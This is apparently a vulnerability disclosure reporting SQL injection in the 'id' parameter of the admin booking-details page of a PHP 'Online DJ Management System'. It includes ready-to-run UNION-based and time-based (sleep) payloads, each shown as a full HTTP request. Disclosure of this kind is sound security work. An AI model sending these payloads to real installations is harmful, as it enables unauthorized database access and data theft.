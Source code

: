 # Online DJ Management System v1.0 has SQL injection

BUG_Author:Andy_LB

Website source code address:https://www.sourcecodester.com/php/15150/online-dj-management-system-phpoop-free-source-code.html

Vulnerability File: /odjms/admin/bookings/view_details.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1) union all select null,concat(0x717273,0x5556575859),null,null,null,null,null,null,null,null,null,null,null,null,null-- -

```
GET /odjms/admin/bookings/view_details.php?id=-1)%20union%20all%20select%20null,concat(0x717273,0x5556575859),null,null,null,null,null,null,null,null,null,null,null,null,null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fqf068shk0hd5fdebbm98ft8ul
Connection: close
```

union query success

![image](https://github.com/ShellHunTerAndyLABA/bug_report/blob/main/sql1.png)

Payload2:id=1) and (select 2 from (select(sleep(10)))x) and (3=3

```
GET /odjms/admin/bookings/view_details.php?id=1)%20and%20(select%202%20from%20(select(sleep(10)))x)%20and%20(3=3 HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=fqf068shk0hd5fdebbm98ft8ul
Connection: close
```

The server's response time is 10 seconds

![image](https://github.com/ShellHunTerAndyLABA/bug_report/blob/main/sql2.png)
